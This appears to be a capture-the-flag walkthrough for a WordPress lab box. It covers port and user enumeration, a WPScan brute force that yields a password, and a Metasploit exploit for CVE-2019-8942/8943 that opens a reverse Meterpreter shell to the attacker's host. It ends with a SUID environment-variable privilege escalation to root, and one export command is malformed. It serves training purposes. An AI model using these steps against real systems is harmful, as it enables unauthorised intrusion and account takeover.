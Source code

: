 Difficult: Medium
----------------------------
Note: "Billy Joel made a Wordpress blog on his home computer and has started working on it.  It's going to be so awesome!"
      "Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole..."
----------------------------
 + Scan the ports and enumerate the available directories.

 '''bash
	$ nmap -sV -vv -A -T4 -p- <IP>
	PORT    STATE SERVICE     REASON         VERSION
	22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9MsH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvtfKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP
	|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI=
	|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8
	80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
	|_http-generator: WordPress 5.0
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
	|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	| http-robots.txt: 1 disallowed entry 
	|_/wp-admin/
	139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
 '''
 + We use tool "WPScan" to scan the page WordPress:
 + Link Git: "https://github.com/wpscanteam/wpscan?tab=readme-ov-file"
 '''bash
	$ wpscan --url=<IP> -e u
	_______________________________________________________________
	         __          _______   _____
	         \ \        / /  __ \ / ____|
	          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
	           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
	            \  /\  /  | |     ____) | (__| (_| | | | |
	             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

	         WordPress Security Scanner by the WPScan Team
	                         Version 3.8.25
	       Sponsored by Automattic - https://automattic.com/
	       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
	_______________________________________________________________

	[+] URL: http://10.10.24.188/ [10.10.24.188]
	[+] Started: Sat Aug 24 11:45:54 2024

	Interesting Finding(s):
	[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
	 | Found By: Emoji Settings (Passive Detection)
	 |  - http://10.10.24.188/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.0'
	 | Confirmed By: Meta Generator (Passive Detection)
	 |  - http://10.10.24.188/, Match: 'WordPress 5.0'

	[i] The main theme could not be detected.

	[+] Enumerating Users (via Passive and Aggressive Methods)
	 Brute Forcing Author IDs - Time: 00:00:01 <==> (10 / 10) 100.00% Time: 00:00:01

	[i] User(s) Identified:

	[+] bjoel
	 | Found By: Wp Json Api (Aggressive Detection)
	 |  - http://10.10.24.188/wp-json/wp/v2/users/?per_page=100&page=1
	 | Confirmed By:
	 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
	 |  Login Error Messages (Aggressive Detection)

	[+] kwheel
	 | Found By: Wp Json Api (Aggressive Detection)
	 |  - http://10.10.24.188/wp-json/wp/v2/users/?per_page=100&page=1
	 | Confirmed By:
	 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
	 |  Login Error Messages (Aggressive Detection)

	[+] Karen Wheeler
	 | Found By: Rss Generator (Aggressive Detection)

	[+] Billy Joel
	 | Found By: Rss Generator (Aggressive Detection)

 '''

 + We have 2 username can try to login /wp-admin: bjoel and kwheel
 + Try to brute force username with WPScan
 '''bash
   $ wpscan --url=<IP> -U kwheel -P /usr/share/wordlists/rockyou.txt -t18
   ^[[31m[!]^[[0m Valid Combinations Found:
 	Username: kwheel, Password: cutiepie1
 '''
-> We have login /wp-admin with user kwheel
+ We have another info WordPress version 5.0
+ Search the vulnerable WordPress 5.0 and find it. This is CVE-2019-8943 and CVE-2019-8942 
+ We can use Metasploit to exploit it. Link: "https://www.exploit-db.com/exploits/46662"
'''bash
	msf6 exploit(multi/http/wp_crop_rce) > exploit 

	[*] Started reverse TCP handler on 10.11.101.46:4444 
	[*] Authenticating with WordPress using kwheel:cutiepie1...
	[+] Authenticated with WordPress
	[*] Preparing payload...
	[*] Uploading payload
	[+] Image uploaded
	[*] Including into theme
	[*] Sending stage (39927 bytes) to 10.10.24.188
	[*] Meterpreter session 1 opened (10.11.101.46:4444 -> 10.10.24.188:55654) at 2024-08-24 12:06:18 +0700
	[*] Attempting to clean up files...

	meterpreter > id
	[-] Unknown command: id. Run the help command for more details.
	meterpreter > shell
	Process 3252 created.
	Channel 1 created.
	id
	uid=33(www-data) gid=33(www-data) groups=33(www-data)

'''

###Privilege Escalation:
+ We can search file SUID to find some interesting files.
'''bash
	find / -uid 0 -perm -4000 -type f 2>/dev/null
	/usr/sbin/checker
'''
-> /usr/sbin/checker is potential
+ Run it and we recivce the notification: "Not an Admin"
+ We can try to see library call of a given program /usr/sbin/checker
'''bash
	$ ltrace /usr/sbin/checker
	getenv("admin")                                  = nil
	puts("Not an Admin")                             = 13
	Not an Admin
	+++ exited (status 0) +++

'''
+ Explain: 
    getenv("admin"): This function checks if an environmenst variable named "admin" is set. If it is, it returns the value of that variable. If not, it returns nil.
    = nil: This is the result of the getenv function call. In this case, it's nil, indicating that the "admin" environment variable is not set.

+ We can use IDA tool or Ghidra to see Pseudocode of program /usr/sbin/checker:
 IDA decomplier:
'''bash
	int __fastcall main(int argc, const char **argv, const char **envp)
	{
	  if ( getenv("admin") )
	  {
	    setuid(0);
	    system("/bin/bash");
	  }
	  else
	  {
	    puts("Not an Admin");
	  }
	  return 0;
      }

''' 
+ In this case environment variable "admin" is not set so we set the "admin". Use export to set
'''bash
	export admin = admin
	ltrace /usr/sbin/checker
	getenv("admin")                                  = "admin"
	setuid(0)                                        = -1
	system("/bin/bash"

''' 

+ Run again and gain the root !!!
'''bash
	/usr/sbin/checker
	id
	uid=0(root) gid=33(www-data) groups=33(www-data)
'''

END!!!